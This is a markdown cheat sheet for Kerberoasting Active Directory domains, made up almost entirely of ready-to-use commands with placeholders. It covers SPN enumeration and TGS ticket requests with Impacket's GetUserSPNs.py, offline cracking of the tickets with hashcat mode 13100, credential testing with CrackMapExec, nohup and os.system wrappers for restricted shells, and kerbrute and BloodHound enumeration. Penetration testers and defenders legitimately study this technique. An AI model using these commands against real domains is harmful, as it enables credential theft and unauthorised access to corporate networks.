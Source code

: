 #### Installation (if needed):

```bash
sudo python3 -m pip install .  # Installs Impacket from the current directory
sudo pip3 install impacket    # Alternative, if available from pip repositories
```

#### Help:

```bash
GetUserSPNs.py -h  # Displays help options
```

#### List SPNs (all):

```bash
GetUserSPNs.py -dc-ip <DC_IP> <DOMAIN>/<USER>  # Replace <DC_IP>, <DOMAIN>, and <USER> with actual values. Prompts for password.
```

#### Request TGS Tickets (all):

```bash
GetUserSPNs.py -dc-ip <DC_IP> <DOMAIN>/<USER> -request
```

#### Request TGS Ticket (specific user):

```bash
GetUserSPNs.py -dc-ip <DC_IP> <DOMAIN>/<USER> -request-user <TARGET_USER>
```

#### Request and Save TGS Ticket:

```bash
GetUserSPNs.py -dc-ip <DC_IP> <DOMAIN>/<USER> -request-user <TARGET_USER> -outputfile <OUTPUT_FILE>  # Replace <OUTPUT_FILE> with the desired filename.
```

---

### Hashcat (Linux):

#### Crack TGS Ticket:

```bash
hashcat -m 13100 <TGS_FILE> <WORDLIST>  # Replace <TGS_FILE> with the ticket file and <WORDLIST> with the wordlist path.
```

```bash
hashcat -m 13100 <TGS_FILE> <WORDLIST> --force  # Adds the --force option, useful when hashcat detects potential errors with the hash.
```

```bash
hashcat -m 13100 <TGS_FILE> <WORDLIST> -o <CRACKED_FILE>  # Adds the -o option to output the cracked password to a file.
```

---

### CrackMapExec (Linux):

#### Test Authentication:

```bash
sudo crackmapexec smb <DC_IP> -u <USER> -p <PASSWORD>
```

---

### **Verification of Extracted Hashes:**

Before cracking, verify the extracted TGS hashes:

```bash
strings <TGS_FILE> | head
hexdump -C <TGS_FILE> | less
```

This helps confirm that the ticket is properly extracted.

---

### **Interactive Shell Variants:**

If running `GetUserSPNs.py` over SSH or in a restricted shell, use:

```bash
python3 -c "import os; os.system('GetUserSPNs.py -dc-ip <DC_IP> <DOMAIN>/<USER>')"
```

Or execute the script in a non-interactive mode:

```bash
nohup python3 GetUserSPNs.py -dc-ip <DC_IP> <DOMAIN>/<USER> -request &
```

This ensures the process runs even after logging out.

---

### **Alternative Tools for SPN Enumeration:**

1. **kerbrute** - Fast SPN brute-forcing and enumeration.
    
    ```bash
    ./kerbrute userenum -d <DOMAIN> --dc <DC_IP> userlist.txt
    ```
    
2. **BloodHound** - Visualizing AD attack paths.
    
    ```bash
    neo4j console &
    bloodhound-python -u <USER> -p <PASSWORD> -d <DOMAIN> -c All
    ```

